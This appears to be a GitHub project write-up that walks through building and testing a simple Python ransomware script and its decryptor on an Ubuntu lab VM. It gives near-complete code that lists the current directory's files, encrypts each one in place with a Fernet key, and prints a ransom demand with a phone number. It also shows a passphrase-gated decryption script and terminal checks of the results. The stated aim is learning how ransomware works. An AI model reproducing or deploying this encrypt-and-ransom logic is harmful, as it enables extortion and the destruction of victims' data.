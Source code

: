 <h3>Ransomware</h3> 

Ransomware deployment using Python scripting

<h3>Objective</h3> 

As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand the mechanics of one of the most popular cyberattacks methods.

<h3>Skills Learned</h3> 

- Python scripting

- Cryptography

<h3>Tools Used</h3> 

- Python

- Linux VM  

- Fernet

Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware101" to create a directory. 

In the directory we will run "echo "file content" > filename.txt" //  We will run this serveral times to create files: file.txt, file2.txt, file3.txt.

Next we will create the malware script.

<h3>Creating the Ransomware Script</h3>

![Encryption](https://github.com/user-attachments/assets/edf5a8c4-e0b2-4010-b4cf-8c5a9ea1bffd)

Ref 2: Creating The Encryption Script (MALWARE.py) 

The ransomware script will be titled, "MALWARE.py".

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

#!/usr/bin/env python3 // First we have to include the shebang for our Python script. This tells Linux to run the file as a Python script. 
 
Import os // Allows Python to interact with the OS.

from cryptography.fernet import Fernet // This imports Fernet so we can use its encryption 128bit encryption abilities. For the script to run properly we need to run "pip install crpytography" in the Linux terminal to install the necessary Python modules.

files = [] // This will create an empty list called "files".

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // If object is a file, add to the file list

if file == "MALWARE.py" or file == "thekey.key" or file == "DECRYPT.py": // We are about to create a conditional statement to exclude these files from the list

continue // This tells the script to continue to the next statement and skip the current iteration, meaning the files in the if statement above will be excluded from the rest of the script. 

files.append(file) // This will append(add) any file targeted in the for loop to the files list.

print(files) // Will display the "files" list in the terminal.

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in write mode and reference the file as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the "files" list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file. This will allow us to plug in the data into the Fernet module.

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypts the contents variable with the Fernet key.

with open(file, "wb") as thefile: // Sets the script to write back to "thefile".

thefile.write(contents_encrypted) // Writes the "contents_encrypted" to the file.

print("All of your files have been encrypted. Contact 890-589-5542 to decrypt your data, for a price") // This is displayed in the terminal when the Python script is executed


<h3>Decryption Sequence</h3> 



![Decryption](https://github.com/user-attachments/assets/5d1837e5-909c-4cf7-9fe0-a973e5fd3e94)

Ref 2: Creating The Decryption Script (DECRYPT.py)

The first half of the script from the beginning up until the "print(files)" line is the same as the MALWARE.py script, I will not reiterate these lines for obvious reasons.

with open("thekey.key", "rb") as key: // opens key file in read binary mode making "key" a variable.

secretkey = key.read() // The "secretkey" equals the contents of the file variable assigned as "key", the ".read" will make the encryption key functional in the decryption portion of the script.

secretphrase = "112113114" // This is going to be the secret password that decrypts the files.

user_phrase = input("Enter the secret phrase to decrypt your files\n") // input is going to allow the user to type the password into the terminal.  

if user_phrase == secretphrase: // If the password is entered correctly by the user, the nested for loop will execute.

The code of the for loop is going to remain very similar to the for loop in the MALWARE.py script with a few small changes. 

contents_decrypted = Fernet(secretkey).decrypt(contents) // This decrypts the files using the decryption key generated by Fernet. 

thefile.write(contents_decrypted) // The contents are now written back to the file.

print("Files decrypted, thank you for your business") // the last sequence of our if statement will print this message informing the user that their files have been decrypted.

else: // If  the "if" statement is false the else statement will run.

print("Wrong passphrase") // When the user inputs an incorrect password upon being prompted for the secret phrase, this output will print in the terminal.


Lets test our scripts!

![results](https://github.com/user-attachments/assets/ef007d90-74cf-40ae-b97d-67d0827bd6ac)

Ref 3: Execution both the Encryption/Decryption Scripts

cat file2.txt // This will display the contents of a the files.

cat thekey.key // Here I am showing the 128bit encryption key, this file is appended from the file list that becomes encrypted in our MALWARE.py script, 
if our encryption key got encrypted, it would be a messy situation.

python3 MALWARE.py // We have now executed our Python script in the directory. 

You now see a list of the files encrypted and our message we left for the user on who to contact to decrypt the files, for a price.

cat file2.txt // As you can see, the data in file is now encrypted.

python3 DECRYPT.py // Now that the files have been encrypted lets decrypt them with our decryption script.

The script prompts us for the secret phrase which was set in the DECRYPT.py script.

We then get a message thanking us for our business, and that the files have been decrypted.

cat file2.txt // Now when we check our file we have the original contents of the file because our data has been decrypted.




 





*Ref 1: Network Diagram*
